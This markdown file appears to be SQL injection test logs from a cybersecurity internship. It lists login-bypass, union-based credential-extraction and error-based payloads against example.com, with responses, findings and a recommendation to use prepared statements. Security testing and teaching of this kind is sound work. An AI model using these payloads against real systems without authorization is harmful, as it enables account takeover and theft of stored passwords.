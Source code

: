 # SQL Injection Logs

## Overview
This document contains logs related to SQL injection testing conducted during the Cybersecurity Internship Program. The logs detail the requests made, responses received, and any vulnerabilities identified.

## Test Cases

### Test Case 1: Basic SQL Injection
- **Request URL:** `http://example.com/login`
- **Payload:** `' OR '1'='1`
- **Response:** 
  - Status Code: 200
  - Response Body: "Welcome, admin!"

### Test Case 2: Union-Based SQL Injection
- **Request URL:** `http://example.com/products?id=1`
- **Payload:** `1 UNION SELECT username, password FROM users--`
- **Response:** 
  - Status Code: 200
  - Response Body: 
    ```
    id | username | password
    1  | admin    | admin123
    ```

### Test Case 3: Error-Based SQL Injection
- **Request URL:** `http://example.com/search?q=test`
- **Payload:** `test'`
- **Response:** 
  - Status Code: 500
  - Response Body: "SQL syntax error..."

## Summary of Findings
- The application is vulnerable to basic SQL injection attacks.
- Sensitive data such as usernames and passwords can be retrieved using union-based injections.
- Error messages can provide insights into the database structure.

## Recommendations
- Implement prepared statements and parameterized queries to mitigate SQL injection risks.
- Conduct regular security assessments and code reviews to identify and fix vulnerabilities.